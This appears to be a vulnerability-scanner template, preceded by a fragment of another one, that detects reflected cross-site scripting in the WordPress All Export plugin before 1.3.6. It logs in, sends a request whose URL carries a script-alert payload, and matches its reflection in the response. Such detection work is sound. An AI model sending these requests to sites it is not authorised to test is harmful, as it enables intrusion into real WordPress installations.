 **Type - word**
- part - body
- words
    1. ">\<script>alert(1)\</script>
    2. 404 Error Logs
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress All Export \<1.3.6 - Cross-Site Scripting
## Description
- WordPress All Export plugin before version 1.3.6 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wp-plugin,xss,wp,wordpress,authenticated,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=pmxe-admin-manage&a">\<script>alert(1)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. manage&a\">\<script>alert(1)\</script>">
    2. Manage Exports
- condition - and
